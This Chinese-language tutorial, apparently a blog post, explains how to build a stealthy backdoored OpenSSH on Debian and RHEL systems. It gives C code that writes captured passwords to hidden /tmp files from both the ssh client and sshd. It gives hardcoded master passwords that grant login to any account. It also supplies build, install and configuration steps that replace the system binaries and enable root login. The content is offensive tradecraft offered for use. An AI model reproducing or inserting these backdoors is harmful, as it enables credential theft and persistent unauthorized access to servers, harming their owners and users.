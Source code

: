 # OpenSSH后门制作

网上关于OpenSSH的后门都是抄来抄去，普遍都是对某个早期版本的OpenSSH打patch进行的，这样的后门使用起来就是自己骗自己，隐蔽性不强，兼容度也极低。因此，花了一段时间研究怎么手工制作OpenSSH后门，这样的后门定制度高，与服务器上OpenSSH版本一致，隐蔽性也较强。

本教程主要记录怎么制作硬编码口令后门及密钥窃听后门，实际上使用OpenSSH源码编译后门能做的还有很多，如硬编码免密后门、命令执行、攻击痕迹清理等。

## Debian系-OpenSSH后门

### 确定版本

```shell
dpkg -S /usr/sbin/sshd
dpkg -l openssh-server
## apt-get download openssh-server=1:8.4p1-5
```

### 下载源码

```shell
# 这是Debian版的下载地址。
https://tracker.debian.org/pkg/openssh
https://salsa.debian.org/ssh-team/openssh/-/archive/debian/1%258.4p1-5/openssh-debian-1%258.4p1-5.zip
# 这是Ubuntu版的下载地址。
https://launchpad.net/ubuntu/+source/openssh
https://launchpad.net/ubuntu/+source/openssh/1:8.4p1-5ubuntu1
```

### 添加后门代码

下面给出发现的一些可利用的位置，实战中使用基本足矣。

```shell
[ssh]
readpass.c     ... read_passphrase
sshconnect2.c  ... userauth_passwd

[sshd]
monitor.c      ... mm_answer_authpassword
auth-passwd.c  ... auth_password
auth-pam.c     ... sshpam_auth_passwd   //大多数ssh都默认使用pam进行认证
```

具体的添加步骤，这里给出几个简单例子。

#### 偷密码

```c
// sshconnect2.c:userauth_passwd      ssh（偷连向其他服务器的密码）
FILE *fp = NULL;
fp = fopen("/tmp/.ssh-2AKMo5YJSRPJ", "a+");
fprintf(fp, "{\"%s@%s\":\"%s\"} (%s:%s)\n",authctxt->server_user,authctxt->host,password,authctxt->local_user,authctxt->service);
fclose(fp);

// auth-passwd.c:auth_password        sshd（记录本机接收到的密码）
// 如果添加在具体的认证函数之前可获得所有登录尝试下的密码，用于口令分析
// 如果添加在认证通过后就是专门用于偷口令的OpenSSH口令窃取后门
FILE *fp = NULL;
fp = fopen("/tmp/.sshd-2AKMo5YJSRPJ", "a+");
fprintf(fp, "{%s:%s}\n",authctxt->user,password);
fclose(fp);
```

#### 万能口令

使用硬编码的万能口令能登录任意用户。

```c
// auth-passwd.c:auth_password        sshd
if (!strcmp(password, "testme12#$")) return 1;

// monitor.c:mm_answer_authpassword   sshd
原来代码如下：authenticated = options.password_authentication && auth_password(ssh, passwd);
改为：authenticated = options.password_authentication && auth_password(ssh, passwd) || strcmp(passwd, "laotie666")==0;
```

### 编译安装

```shell
apt-get install libpam0g-dev libselinux1-dev

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/var/lib/sshd/ ; make && make install  
# 实际上源码编译并安装后会发现ssh和sshd都替换掉了。因为我们的源码包是openssh的，不单纯是openssh-server
```

### 效果

下图中可以看到Debian上使用带窃听功能的ssh后门尝试登录服务器时，记录到的密码。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_173536.jpg)

下图是其他设备尝试以万能口令登录Debian服务器的效果。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175822.jpg)

Debian服务器上带窃听后门代码的sshd上也可以看到输入的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175916.jpg)

## RHEL系-OpenSSH后门

### 确定版本

```shell
rpm -qf /usr/sbin/sshd
```

### 下载源码

```shell
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz.asc
```

### 添加后门代码

参考上面Debian系的添加方法，都是一样的。

### 编译安装

**step1** 源码编译

```shell
yum -y install pam-devel libselinux-devel zlib zlib-devel openssl-devel openssl-libs make gcc
wget http://vault.centos.org/8.4.2105/BaseOS/Source/SPackages/openssh-8.0p1-6.el8_4.2.src.rpm
rpm -i openssh-8.0p1-6.el8_4.2.src.rpm
cd ~/rpmbuild
# 编译选项可查看./contrib/redhat/openssh.spec
clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh /etc/ssh ;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 
```

**step2** 编写sshd.service文件

```shell
cat /etc/systemd/system/sshd.service <<EOF
[Unit]
Description=OpenSSH server daemon
After=network.target

[Service]
Type=simple
User=root
Restart=on-failure
RestartSec=5s
ExecStart=/usr/sbin/sshd -f /etc/ssh/sshd_config
KillMode=process

[Install]
WantedBy=multi-user.target
EOF
```

**step3** 编辑sshd_config配置文件，允许root登录

```shell
sed -i '/^PermitRootLogin/ s/no/yes/' /etc/ssh/sshd_config
```

**step4** 解决SELinux安全检查问题

```shell
restorecon -rv /usr/sbin/
```

**step5** 启动sshd.service

```shell
systemctl enable sshd.service
systemctl start sshd.service
```

### 效果

下图时CentOS服务器带窃听功能的ssh及sshd捕获到的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_153441.jpg)

